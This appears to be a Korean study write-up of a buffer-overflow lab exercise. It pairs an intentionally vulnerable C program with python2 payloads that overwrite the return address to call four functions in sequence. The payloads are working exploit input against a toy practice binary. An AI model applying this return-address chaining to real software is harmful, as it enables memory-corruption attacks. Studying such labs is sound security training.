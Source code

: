 # Multi Function Call 1

### Question

- func1, func2, func3, func4 순서대로 실행

```
#define MAX 49
#define BUFFER_SIZE 20
void func1() { printf("Run Func1!\\n"); }
void func2() { printf("Run Func2!\\n"); }
void func3() { printf("Run Func3!\\n"); }
void func4() { printf("Run Func4!\\n"); }
int main(int argc, char *argv[])
{
	char buf[BUFFER_SIZE];
	printf(" What your name : ");
	fgets(buf, MAX, stdin);
	printf("\\nYour Name is %s", buf);
	dumpcode((unsigned char *)buf, 100);
}

```



<br>



## Analysis

**1)**

```
printf("0x%x\\n", func1);
printf("0x%x\\n", func2);  
printf("0x%x\\n", func3); 
printf("0x%x\\n", func4);
```

- 위 코드로 함수 주소 확인

```
python2 -c "print 'A'*24 + '\\x80\\x11\\x40\\x00' + '\\x90\\x11\\x40\\x00' + '\\xa0\\x11\\x40\\x00' + '\\xb0\\x11\\x40\\x00'" | .\\multi_func_1.exe
```

- 위 페이로드 실행

    ![image-27.png](../images/image-27.png)
    

<br>

**2)**

```
python2 -c "print 'A'*24 + '\\x80\\x11\\x40\\x00' + '\\x90\\x11\\x40\\x00' + '\\xa0\\x11\\x40\\x00' + '\\xb0\\x11\\x40\\x00'" | .\\multi_func_1.exe
```

- 위 페이로드 실행

    ![image-28.png](../images/image-28.png)
    	→ '\x1a'가 EOF로 인식되어 의도한 주소값이 제대로 입력되지 않음

<br>

**3)**

![image-29.png](../images/image-29.png)

![image-30.png](../images/image-30.png)

![image-31.png](../images/image-31.png)

```
python2 -c "print 'A'*24 + '\\x40\\x12\\x40\\x00' + '\\x60\\x12\\x40\\x00' + '\\x80\\x12\\x40\\x00' + '\\xa0\\x12\\x40\\x00'" | .\\multi_func_1.exe
```



<br>



### Reference

- [https://veath.tistory.com/45](https://veath.tistory.com/45)

